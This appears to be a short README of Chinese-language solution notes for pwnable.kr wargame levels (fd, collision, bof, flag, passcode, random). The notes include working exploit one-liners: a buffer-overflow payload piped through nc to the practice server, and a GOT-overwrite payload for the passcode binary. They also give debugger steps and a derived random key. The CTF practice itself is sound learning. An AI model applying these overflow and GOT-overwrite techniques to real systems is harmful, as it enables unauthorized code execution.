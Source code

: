 # pwnable.kr

## fd
- [Notes](./01.fd/fd.md)

## collision
- [Notes](./02.collision/collision.md)

## bof

-   动态调试
    -   设置断点: `b main`
    -   开始运行: `r`
    -   单步调试: `n`
    -   单步步入：`s`
    -   创建一个64字节的测试 payload: `pattern create 64`
    -   查看目标地址: `p $ebp+0x8`
    -   查看地址状态: `telescope 25`
    -   故构造payload: `(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000`
-   静态调试
    -   `s=$esp+1ch`
    -   `a1=$esp+50h`
    -   `payload = 'j' * 52 + p32(key)`

## flag

-   `upx -q -d flag -ofalg_upx`

## passcode

-   `name`可溢出
-   `scanf`使用错误，导致将输入值写入到`passcod1`的值所代表的地址上（即`passcode1`的地址上存的内容将被视为输入的目标地址）
    -   `mov edx, [ebp+var_10]`应为`lea edx, [ebp+var_10]`
-   利用`name`溢出将`passcode1`内容覆盖为`GOT`内某个函数的地址，然后输入值设为某个想要作为替代（可获得flag）的代码地址
-   `python -c "print 'j'*0x60+'\x04\xa0\x04\x08'+ '134514147\n'" | ./passcode`

## random

-   `rand()` 若没有提供参数会在当前环境使用同一随机种子来生成随机数
-   而通过测试，服务器上 `rand()` 生成的默认随机数值为 `1804289383`, 故 `key = 1804289383 ^ 0xdeadbeef = 3039230856`

## mistake
